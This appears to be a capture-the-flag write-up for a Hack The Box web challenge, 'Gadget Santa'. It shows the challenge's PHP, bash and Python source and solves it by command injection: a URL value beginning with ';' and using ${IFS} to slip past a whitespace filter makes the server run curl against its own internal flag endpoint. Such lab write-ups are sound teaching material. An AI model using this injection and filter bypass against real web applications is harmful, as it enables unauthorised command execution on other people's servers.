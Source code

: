 # Web :: Gadget Santa

*It seems that the evil elves have broken the controller gadget for the good old candy cane factory! Can you team up with the real red teamer Santa to hack back?*

### Challenge Files: [web_gadget_santa.zip](web_gadget_santa.zip)

For this challenge, there is a docker component that hosts the vulnerable website, but you are provided with the challenge files to develop an exploit.

On this website, we are able to click a few buttons to see the status of different things in Santa's workshop (sorry I forgot to get a screenshot). Looking into the source code, we can see that these commands are filtered by removing any spaces, and then passed into the php *shell_exec()* function as a parameter for **santa_mon.sh**

```php
<?php
class MonitorModel
{   
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {   
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

Looking at that file, we can see that it accepts a few commands but also allows for any additional commands that are added onto the URL.

```bash
#!/bin/bash 

ups_status() {
    curl localhost:3000;
}

restart_ups() {
    curl localhost:3000/restart;
}

list_processes() {
    ps -ef
}

list_ram() {
    free -h
}

list_connections() {
    netstat -plnt
}

list_storage() {
    df -h
}

welcome() {
    echo "[+] Welcome to Santa's Monitor Gadget!"
}

if [ "$#" -gt 0 ]; then
    $1
fi

```

We can see here that some commands are being routed to localhost port 3000, which is a service that is being run by the ups_manager.py, and that there is a get_flag page but it is only accessible from localhost.

```python
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def check_service():
	# Yoinks Anti Christmas elves was here!!! 😈
	if subprocess.getoutput('echo "running" #ssh ups@candyfactory.htb "systemctl show -p SubState --value PowerManager"'):
		return True
	return False

def restart_service():
	# Yoinks Anti Christmas elves was here!!! 😈
	runCmd = subprocess.getoutput('echo "sucessful" #ssh ups@candyfactory.htb "systemctl restart PowerManager.service"')
	return True

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/':
				resp_ok()
				if check_service():
					self.wfile.write(get_json({'status': 'running'}))
				else:
					self.wfile.write(get_json({'status': 'not running'}))
				return
			elif self.path == '/restart':
				restart_service()
				resp_ok()
				self.wfile.write(get_json({'status': 'service restarted successfully'}))
				return
			elif self.path == '/get_flag':
				resp_ok()
				self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

So the trick here is that we need to pass a command that will be executed by the monitor script without any spaces and request the flag endpoint. We can use ${IFS} for this, which is read as a space on the command line so we can bypass the space filter.

Adding the command: ```;curl${IFS}127.0.0.1:3000/get_flag``` to the URL for the monitor endpoint prints the flag:

```HTB{54nt4_i5_th3_r34l_r3d_t34m3r}```